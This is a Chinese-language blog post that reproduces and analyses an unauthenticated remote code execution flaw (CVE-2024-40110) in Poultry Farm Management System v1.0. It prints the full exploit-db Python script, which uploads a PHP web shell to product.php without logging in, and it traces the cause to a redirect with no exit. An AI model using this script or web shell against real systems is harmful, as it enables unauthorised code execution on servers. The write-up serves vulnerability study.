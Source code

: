 #  exploit_db漏洞复现&分析1_CVE-2024-40110   
原创 Ry4n  Crush Sec   2024-08-16 09:30  
  
## 前言  
  
近期想通过复现和分析漏洞，提高代码和漏洞方面的能力，exploit-db是一个很合适的平台，提供了漏洞poc和源码包等等，后续会持续更新该系列。  
  
本次选择了一个RCE：  
Poultry Farm Management System v1.0 - Remote Code Execution (RCE) - PHP webapps Exploit (exploit-db.com)[1]  
## 环境搭建  
  
源码下载链接：https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip  
  
本地使用phpstudy搭建，将源码解压后放到网站根目录WWW下，并新建一个farm数据库，将账号密码填写到WWW\Redcock-Farm\farm\includes\dbconnection.php中，访问即可http://127.0.0.1:8081/Redcock-Farm/farm/：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bPjKnPGAZG9bT0RsFU5HhPfsWeeXH50DlYO7AiaAibHNj6DmHrpCBhRYA/640?wx_fmt=png&from=appmsg "")  
  
账号密码在源码包中有提供。  
## 漏洞复现  
  
首先找到漏洞点product.php:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83b4710tC4nib9nNS8LjIhdDoGShLDuibXtY0tGDEv61NApOmkClnT9MgiaA/640?wx_fmt=png&from=appmsg "")  
  
直接在ui上传php文件，内容为phpinfo。  
  
上传成功，找一下文件路径：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bo6fh1U43iasRbBPDgvURZNY6vXvXewsiawr2lIZO8v3j0BappSp8ZcMA/640?wx_fmt=png&from=appmsg "")  
  
访问：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bgbXd6s1CKib0fZpVnxpMyZwdPRcqWCZ7xeXIGfibicHEQ9IW7ya37HKpQ/640?wx_fmt=png&from=appmsg "")  
  
成功。  
  
到这里能够成功复现，但是觉得没有分析的价值，在登录后直接上传php即可，没作文件过滤，但是回到exploit-db再看一下漏洞名：  
  
Unauthenticated Remote Code Execution (RCE) - Poultry Farm Management System v1.0，unauthenticated未授权，说明可以不需要登录即可利用，用exp尝试：  
```
# Exploit Title: Poultry Farm Management System v1.0 - Remote Code Execution (RCE)
# Date: 24-06-2024
# CVE: N/A (Awaiting ID to be assigned)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip
# Github - https://github.com/w3bn00b3r/Unauthenticated-Remote-Code-Execution-RCE---Poultry-Farm-Management-System-v1.0/
# Category: Web Application
# Version: 1.0
# Tested on: Windows 10 | Xampp v3.3.0
# Vulnerable endpoint: http://localhost/farm/product.php

import requests
from colorama import Fore, Style, init

# Initialize colorama
init(autoreset=True)

def upload_backdoor(target):
    upload_url = f"{target}/farm/product.php"
    shell_url = f"{target}/farm/assets/img/productimages/web-backdoor.php"

    # Prepare the payload
    payload = {
        'category': 'CHICKEN',
        'product': 'rce',
        'price': '100',
        'save': ''
    }

    # PHP code to be uploaded
    command = "hostname"
    data = f"<?php system('{command}');?>"

    # Prepare the file data
    files = {
        'productimage': ('web-backdoor.php', data, 'application/x-php')
    }

    try:
        print("Sending POST request to:", upload_url)
        response = requests.post(upload_url, files=files, data=payload,
verify=False)

        if response.status_code == 200:
            print("\nResponse status code:", response.status_code)
            print(f"Shell has been uploaded successfully: {shell_url}")

            # Make a GET request to the shell URL to execute the command
            shell_response = requests.get(shell_url, verify=False)
            print("Command output:", Fore.GREEN +
shell_response.text.strip())
        else:
            print(f"Failed to upload shell. Status code:
{response.status_code}")
            print("Response content:", response.text)
    except requests.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target = "http://localhost"  # Change this to your target
    upload_backdoor(target)

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83biaudOLv2BGMvP6OrCgO9g7yykDUUe6NUkvUQxcymfjeASXJoADic050A/640?wx_fmt=png&from=appmsg "")  
  
成功执行命令whoami，下面跟进代码进行分析。  
## 漏洞分析  
  
直接在product.php下断点：  
  
  
先看登录后（带上cookie）上传文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bR2d1Gn71j6NWLoiceB1K30ibXIbNBdatU60O8QdGtWKWppibTNHhe7UTg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bhctlCS43rRvYzaTof5e7FwPuhxNXQic0apqbDtpA5V97epMicpAueOqA/640?wx_fmt=png&from=appmsg "")  
  
步入之后，通过session_start()，获取了session，所以没能进入if判断，直接跳出，没有执行header()。  
  
再看一下unauthenticated：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83b2yuItrp2xlrxh6fSqQQJiaXI0WmrI5QYARYSniaXeMnM6GlBe7fZopUQ/640?wx_fmt=png&from=appmsg "")  
  
执行到了header("Location: http://$host$uri/$extra")，此时未登录，所以session也为空。header的作用是进行重定向，重定向到登录页，但是继续往后执行，会发现还是执行到了product.php中的后续代码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bP50QibUHExLfJSHEDcfrYwgErjnsibYyeZ9Eeeqq76GXmH0GO6P07KEg/640?wx_fmt=png&from=appmsg "")  
  
是不是因为在header重定向之后没有die或者exit，导致这里的鉴权其实失败了？  
  
本地写一个php：  
```
<?php
if (isset($_GET['value']) && $_GET['value'] == 1) {
    header("Location: http://www.baidu.com");
    file_put_contents('log.txt', "Header sent, but script continues to execute.\n", FILE_APPEND);
    exit();
    file_put_contents('log.txt', "This won't execute because of exit().\n", FILE_APPEND);
}
?>
```  
  
访问之后：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83bYNYybN9H27AbibbbhtL2HicT6XO2ViarvjRlibYJKbDQe7LGx9o8ozBJaA/640?wx_fmt=png&from=appmsg "")  
  
虽然重定向到了百度，但是同时写入文件的代码也被执行了，同理，也就导致了前面的问题。  
  
下面再通过删除功能验证一下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83br8NNUibXKicshMvhToiaMhiaG2kOAMUx5icbnibGT93AkB8ARaw1rzXRib25w/640?wx_fmt=png&from=appmsg "")  
  
抓到删除的api为http://127.0.0.1:8081/Redcock-Farm/farm/product.php?del=32，在无痕浏览器中删除第一个product，等待两秒后重定向到登录页，但是product数量已经从24变为23，删除成功。  
  
继续往下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83buac5AfffUyibLuQqLIp2UKTDraXhoTW7rrtticP5KkJv7wJyfmHibA1Aw/640?wx_fmt=png&from=appmsg "")  
  
将上传的文件从临时文件移到assets/img/productimages/中，这一路径也可以在ui上直接通过检查得到。  
  
再往后：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LwqCMsTTXoJVwdcrnUsOYU21g2kQI83btF4KgA9U7qA81v16PZgPGEDusFy7icGl3U0Z1Vte4qtic9n05uMiaz4fQ/640?wx_fmt=png&from=appmsg "")  
  
执行sql语句，插入数据库，如果有数据插入，就弹窗提示，成功。  
  
整个流程中存在如下的问题：  
  
•鉴权失效，导致不登录也能使用后台功能点  
•文件上传未作过滤，导致可以上传文件执行脚本  
### References  
  
[1] Poultry Farm Management System v1.0 - Remote Code Execution (RCE) - PHP webapps Exploit (exploit-db.com): https://www.exploit-db.com/exploits/52053  
  
  
